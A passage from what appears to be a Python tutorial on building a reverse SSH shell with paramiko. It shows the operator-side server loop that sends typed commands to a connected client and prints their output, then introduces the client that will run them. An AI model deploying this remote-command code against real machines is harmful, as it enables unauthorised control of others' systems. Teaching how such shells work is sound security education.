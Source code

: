 ```python
        print "[-] Connection Failed: " + str(e)
        sys.exit(1)
    print "[+] Connection Established!"

    # creating a paramiko object
    try:
        Session = paramiko.Transport(client)
        Session.add_server_key(HOST_KEY)
        paramiko.util.log_to_file("filename.log")
        server = Server()
        try:
            Session.start_server(server=server)
        except paramiko.SSHException, x:
            print '[-] SSH negotiation failed.'
        chan = Session.accept(10)
        print '[+] Authenticated!'
        chan.send("Welcome to Buffy's SSH")
        while 1:
            try:
                command = raw_input("Enter command: ").strip('\n')
                if command != 'exit':
                    chan.send(command)
                    print chan.recv(1024) + '\n'
                else:
                    chan.send('exit')
                    print '[*] Exiting ...'
                    session.close()
                    raise Exception('exit')
            except KeyboardInterrupt:
                session.close()

    except Exception, e:
        print "[-] Caught exception: " + str(e)
        try:
            session.close()
        except:
            pass
        sys.exit(1)

if __name__ == '__main__':
    main()
```



### The SSH Client

The last piece for our reversed shell is to make the SSH client to be able to receive commands from the server.

We are going to adapt the previous client script to receive these commands. All we need to do is to add a loop inside the session:
